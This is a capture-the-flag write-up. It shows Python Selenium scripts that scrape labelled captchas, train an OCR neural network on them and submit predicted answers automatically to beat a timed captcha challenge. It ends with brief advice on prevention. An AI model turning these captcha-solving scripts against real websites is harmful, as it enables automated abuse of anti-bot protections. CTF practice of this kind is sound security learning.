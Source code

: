 # First thoughts:
On opening the website there is the option to open the captcha site. There I have 30 seconds to input a captcha. If the captcha is right and the time hasn't run out, you get redirectd to the next captcha site where you have to input 3 more.
If the captcha gets input wrong or the time ran out I got redirected to a fail site where the correct captcha was printed out.

# The Exploit:
I knew that there where 4 stages of captchas I had to solve so I thought about automating it. My Idea was to use some kind of atrifical neural network to recognize the characters and input them to the site. To train such a network I needed a lot of trainig data. So data which has the captcha and the solutiun.
Luckily I could just download the captcha from the site and get the captchas label from the fail site. So I wrote a liitle python script which would dump me 10000 captchas save them in a file and note the filename together with the captcha label in a seperate file.
```python
import base64
from selenium import webdriver

driver = webdriver.Chrome()

labels = open("labels.txt", "w")


def get_images(url):
    
    driver.get(url)

    img = driver.find_element_by_tag_name('img')
    img_data = img.get_attribute("src")[22:].encode()

    buttons = driver.find_elements_by_tag_name('button')
    
    for btn in buttons:
        if btn.get_attribute("type") == "submit" and btn.text=="Next":
            btn.click()

            captchaLabel = driver.find_element_by_tag_name('b')

            filename = captchaLabel.text
            with open("captchas/" + filename + ".png", 'wb') as out_file:
                out_file.write(base64.decodebytes(img_data))

            labels.write(filename + '.png ' + filename + '\n')
            break    

if __name__ == '__main__':
    for i in range(0,10000):
        print("Done " + str(i))

        get_images('http://hax1.allesctf.net:9200/captcha/0')

    labels.close()
    driver.close()
```
After I extracted some data I took 10% of the downloaded files and put them in a diffrent file as test data. The rest is training data.
Then I used a tensorflow model from github called [attention ocr](https://github.com/emedvedev/attention-ocr). This model first runs a convolutional neural network on the imgae which splits the image into the characters. Then it uses a long short term momery network to predict the characters. (Note to intstall the attention ocr library you need python2 because the tensorflow 1.14 version is required)
Now I could use the model to create a trainig and testing datasets with the `aocr dataset <captcha-annotations> training.tfrecords` command. With the command `aocr train --max-prediction 16 --max-width 300 training.tfrecords` I could train the network. The 2 parameters `max-prediction` trains the model to have a maximum of 16 characters and the max-width parameter is used to tell the model the maximum width of the provided captchas. (I later found out that 300 was a bit to short but nevertheless it worked for me xD )
I let the model train for a night after that I tested the training data with the command `aocr test --max-prediction 16 --max-width 300 testing.tfrecords` and got a result of almost 100% accuracy for all the testing data. I also had the option to visualize how the model looks at the captcha ![predictionGIF][image.gif].
now that the model was trained I could export it with the `aocr export --max-prediction 16 --max-width 300` command and then start a docker container
```
sudo docker run -p 8501:8501 \                                                                                                                                               
  --mount type=bind,source=<directory>/exported-model/,target=/models/captcha \
  -e MODEL_NAME=captcha -t tensorflow/serving
```
Now I could send a message with curl to receive a prediction:
```
curl -X POST \
  http://localhost:8501/v1/models/captcha:predict \
  -H 'cache-control: no-cache' \
  -H 'content-type: application/json' \
  -d '{
  "signature_name": "serving_default",
  "inputs": {
     	"input": { "b64": "<your image encoded as base64>" }
  }
}'
```

The last step was to use python with selenium to read the captchas and input the right captchas.
```python
import base64
from selenium import webdriver
import requests
import os
import json
import time


driver = webdriver.Chrome()

headers = {
    'cache-control': 'no-cache',
    'content-type': 'application/json',
}

def solve_captcha(img_data):    
    data = '{\n  "signature_name": "serving_default",\n  "inputs": {\n     \t"input": { "b64": "' + img_data.decode("utf-8")  + '" }\n  }\n}'

    response = requests.post('http://localhost:8501/v1/models/captcha:predict', headers=headers, data=data).text

    y = json.loads(response)
    out = y["outputs"]
    print("Prob: " + str(out["probability"]) + " Guess: " + str(out["output"]))

    return out["output"]

def solve_0():
    time.sleep(0.5)
    img = driver.find_element_by_tag_name('img')
    img_data = img.get_attribute("src")[22:].encode()
    
    inp = driver.find_element_by_tag_name('input')
    inp.send_keys(solve_captcha(img_data))

    buttons = driver.find_elements_by_tag_name('button')
    
    for btn in buttons:
        if btn.get_attribute("type") == "submit" and btn.text=="Next":
            btn.click()

            break
    
def solve_1():
    time.sleep(0.5)
    imgs = driver.find_elements_by_tag_name('img')
    inps = driver.find_elements_by_tag_name('input')

    for i in range(0,3):
        img_data = imgs[i].get_attribute("src")[22:].encode()
        inps[i].send_keys(solve_captcha(img_data))

    buttons = driver.find_elements_by_tag_name('button')
    
    for btn in buttons:
        if btn.get_attribute("type") == "submit" and btn.text=="Next":
            btn.click()

            break

def solve_2():
    time.sleep(0.5)
    imgs = driver.find_elements_by_tag_name('img')
    inps = driver.find_elements_by_tag_name('input')


    for i in range(0,10):
        img_data = imgs[i].get_attribute("src")[22:].encode()
    
        inps[i].send_keys(solve_captcha(img_data))

    buttons = driver.find_elements_by_tag_name('button')
    
    for btn in buttons:
        if btn.get_attribute("type") == "submit" and btn.text=="Next":
            btn.click()

            break

def solve_3():
    time.sleep(0.2)
    imgs = driver.find_elements_by_tag_name('img')
    inps = driver.find_elements_by_tag_name('input')


    for i in range(0,100):
        img_data = imgs[i].get_attribute("src")[22:].encode()
    
        inps[i].send_keys(solve_captcha(img_data))

    buttons = driver.find_elements_by_tag_name('button')
    
    for btn in buttons:
        if btn.get_attribute("type") == "submit" and btn.text=="Next":
            btn.click()

            break
    

if __name__ == '__main__':
    driver.get('http://hax1.allesctf.net:9200/captcha/0')

    solve_0()
    solve_1()
    solve_2()
    solve_3()

    #driver.close()
```

# Prevention:
The problem with this site is that the captchas are very easy to crack for an atrifical neural network. Also it is much safer to use a software which is well known to work like reCAPTCHA.
